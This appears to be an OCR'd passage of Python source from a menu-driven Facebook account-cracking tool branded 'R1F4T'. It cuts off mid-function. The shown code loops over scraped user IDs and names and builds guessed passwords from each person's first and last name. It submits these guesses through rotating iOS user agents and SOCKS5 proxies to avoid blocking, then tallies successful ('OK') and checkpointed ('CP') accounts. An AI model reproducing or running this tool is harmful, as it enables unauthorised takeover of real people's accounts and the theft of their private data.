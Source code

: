 					linex()
					for user in fo:
						ids,names = user.split('|')
						passlist = plist
						if mthd in ['1','01']:
							crack_submit.submit(ffb,ids,names,passlist)
						elif mthd in ['2','02']:
							crack_submit.submit(mmm,ids,names,passlist)
						else:
							crack_submit.submit(api,ids,names,passlist)
				print('\033[1;37m')
				linex()
				print(' The process has completed')
				print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
				linex()
				input(' Press enter to back ')
				os.system('python axi.py')
			elif rifat in ['2','02']:
				rifat1()
			elif rifat in ['3','03']:
				bd()
			elif rifat in ['4','04']:
				chos()
			elif rifat in ['5','05']:
				zong()
			elif rifat in ['6','06']:
				cinc()
			elif rifat in ['7','07']:
				os.system('xdg-open https://www.facebook.com/R1F4T.OFFICIAL.ACCOUNT');menu()
			elif rifat in ['8','08']:
				exit('')
			else:
				exit(' Option not found in menu...')
		
def mmm(ids,names,passlist):
	global loop,oks,cps
	sys.stdout.write(f'\r\x1b[1;97m[\033[1;97mR1F4T\033[1;97m] %s|\x1b[1;92mOK:-%s \x1b[1;97m\r'%(loop,len(oks))),
	session = requests.Session()
	try:
		first = names.split(' ')[0]
		try:
			last = names.split(' ')[1]
		except:
			last = 'Khan'
		ps = first.lower()
		ps2 = last.lower()
		for fikr in passlist:
			pas = fikr.replace('First',first).replace('Last',last).replace('first',ps).replace('last',ps2)
			ua = random.choice(ua_ios)
			nip=random.choice(prox)
			proxs= {'http': 'socks5://'+nip}
			